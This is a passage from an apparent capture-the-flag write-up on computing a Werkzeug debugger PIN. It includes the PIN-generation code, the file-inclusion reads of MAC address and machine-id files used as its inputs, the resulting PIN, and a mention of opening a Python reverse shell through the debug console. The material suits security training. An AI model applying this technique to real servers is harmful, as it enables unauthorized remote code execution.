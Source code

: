 ```python

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

For `public_bits`:

* the username `www-data` was taken from our environment earlier

* `flask.app` is standard

* `wsgi_app` took me a few attempts to get right -- but we can see this in our stack trace -- each line of the stack trace shows e.g. `#### File "/app/venv/lib/python3.10/site-packages/flask/app.py", line *2528*,
  in wsgi_app`, which gives us the `wsgi_app` app name

* our stack trace also shows `/app/venv/lib/python3.10/site-packages/flask/app.py` , which we use for the app filename for flask

For `private_bits`:

* we used LFI to read `/proc/net/arp` to find interface `eth0`, we then were able to read `/sys/class/net/eth0/address` to get the MAC address, and convert it to decimal `345052371875` using python

* The machine ID is `/etc/machine-id` with the 3rd string after a `/`  in`/proc/self/cgroup`, which is `superpass.service`

I noticed the init file for werkzeug we obtained via LFI was slightly different to the exploitation script from HackTricks above -- we needed to use `hashlib.sha1()` rather than `hashlib.md5()`

So running this tweaked for our target, we get the PIN:

```bash
$python3 exploit.py
114-891-007
```

After entering the PIN, we can enter and execute arbitrary python via an in-browser REPL.  So we open a netcat listener, then we use a python reverse shell:

![](assets/2023-03-19-21-10-02-image.png)
